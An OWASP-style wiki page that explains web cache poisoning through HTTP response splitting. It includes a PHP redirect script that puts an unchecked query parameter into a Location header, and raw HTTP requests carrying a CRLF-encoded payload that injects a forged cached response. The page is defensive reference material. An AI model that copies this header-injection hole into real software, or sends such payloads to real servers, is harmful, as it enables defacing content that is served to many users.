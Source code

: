 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: 
contributors: 
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **04/23/2009**

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

  - Finds the vulnerable service code, which allows them to fill the
    HTTP header field with many headers.
  - Forces the cache server to flush its actual cache content, which we
    want to be cached by the servers.
  - Sends a specially crafted request, which will be stored in cache.
  - Sends the next request. The previously injected content stored in
    cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement "wikilink").

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting "wikilink") and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carrige Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. <http://testsite.com/redir.php?page=http://other.testsite.com/>

And exemplary code of the redir.php:

    rezos@dojo ~/public_html $ cat redir.php
    <?php
    header ("Location: " . $_GET['page']);
    ?>

Crafting appropriate request: \[1\]

1 - remove page from the cache

    GET http://testsite.com/index.html HTTP/1.1
    Pragma: no-cache
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

HTTP header fields "Pragma: no-cache" or "Cache-Control: no-cache" will
remove the page from cache (if the page is stored in cache, obviously).

2 - using HTTP Response Splitting we force cache server to generate two
responses to one request

    GET http://testsite.com/redir.php?site=%0d%0aContent-
    Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
    Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
    nt-Length:%2020%0d%0aContent-
    Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

  - Last-Modified (checked byt the If-Modified-Since header)
  - ETag (checked by the If-None-Match header)

3 - sending request for the page, which we want to replace in the cache
of the server

    GET http://testsite.com/index.html HTTP/1.1
    Host: testsite.com
    User-Agent: Mozilla/4.7 [en] (WinNT; I)
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
    image/png, */*
    Accept-Encoding: gzip
    Accept-Language: en
    Accept-Charset: iso-8859-1,*,utf-8

In theory, the cache server should match the second answer from the
request \#2 to the request \#3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal techique for
cache poisoning. It's due to cache server's different connection model
and request proccessing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from \[1\], which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks \[1\]
<http://packetstormsecurity.org/papers/general/whitepaper_httpresponse.pdf>
by Amit Klein, Director of Security and Research

## Related [Threat Agents](Threat_Agent "wikilink")

  - TBD

## Related [Attacks](Attacks "wikilink")

  - [HTTP Response Splitting](HTTP_Response_Splitting "wikilink")
  - [Cross-User_Defacement](Cross-User_Defacement "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [Input_Validation](Input_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

TBD

[need to update now that it's 2009](Category:FIXME "wikilink") [I wasn't
sure what the first 2 sentences were trying to say, can someone take a
look at these?](Category:FIXME "wikilink") [Category:Input
Validation](Category:Input_Validation "wikilink") [Category:Abuse of
Functionality](Category:Abuse_of_Functionality "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:OWASP ASDR
Project](Category:OWASP_ASDR_Project "wikilink")